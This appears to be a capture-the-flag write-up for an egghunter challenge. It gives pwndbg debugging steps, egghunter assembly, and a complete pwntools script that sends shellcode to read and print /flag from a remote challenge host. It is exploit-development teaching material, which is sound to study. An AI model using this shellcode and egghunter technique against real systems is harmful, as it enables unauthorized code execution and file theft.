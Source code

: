 * design egg: b"\x90" * 8 (**nopsled**)
* debug egghunter make sure it can do hunter stuff by using pwndbg

```
context.terminal = ['tmux', 'splitw', '-h']
p = process('./find-me')
gdb.attach(p, gdbscript='''
b *0x4017d3  #call rax(egghunter)
c
''')
```

* egghunter itself

```
# search from rax(egghunter), set rax to rcx, coz rax maybe has some special task so use rcx which is free currently
mov rcx, rax

# logic quite simple, code as the comment
skip:
    inc rcx
    jmp search
search:
    cmp dword ptr [rcx], 0x90909090
    jne skip
    
    cmp dword ptr [rcx + 4], 0x90909090
    jne skip
    
    jmp rcx
```
* another life saver: **find start_addr, end_addr, egg** in pwndgb, try to figure out if egg has been injected

```
pwndbg> lis or vmap
pwndbg> find start_addr, end_addr, egg
```

* shellcode **nothing** special

```
payload = egg + shellcode(cat /flag)

```

* whole script

```
from pwn import *

context.arch = 'amd64'

p = remote('6447.lol', 20709)

# context.terminal = ['tmux', 'splitw', '-h']
# p = process('./find-me')
# gdb.attach(p, gdbscript='''
#     b *0x4017d3
#     c
# ''')

shellcode = asm(f'''
   XOR RAX, RAX
   MOV RAX, 0x67616C662F
   PUSH RAX
   MOV RDI, RSP


   XOR RSI, RSI
   XOR RDX, RDX
   MOV RAX, 2
   SYSCALL

   MOV RDI, RAX
   MOV RSI, RSP
   MOV RDX, 200
   XOR RAX, RAX
   SYSCALL

   MOV RDI, 1
   MOV RSI, RSP
   MOV RDX, 200
   MOV RAX, 1
   SYSCALL

   XOR RDI, RDI
   MOV RAX, 60
   SYSCALL
''')

egg = b"\x90" * 4

egghunter = asm(f'''
mov rcx, rax
skip:
    inc rcx
    jmp search
search:
    cmp dword ptr [rcx], 0x90909090
    jne skip
    
    cmp dword ptr [rcx + 4], 0x90909090
    jne skip
    
    jmp rcx
''')

payload = egg + egg + shellcode

p.recvuntil(b'enter your smallbuf shellcode').decode('utf-8').strip()
p.sendline(egghunter)

p.recvuntil(b'enter your bigbuf shellcode:').decode('utf-8').strip()
p.sendline(payload)

p.interactive()

```

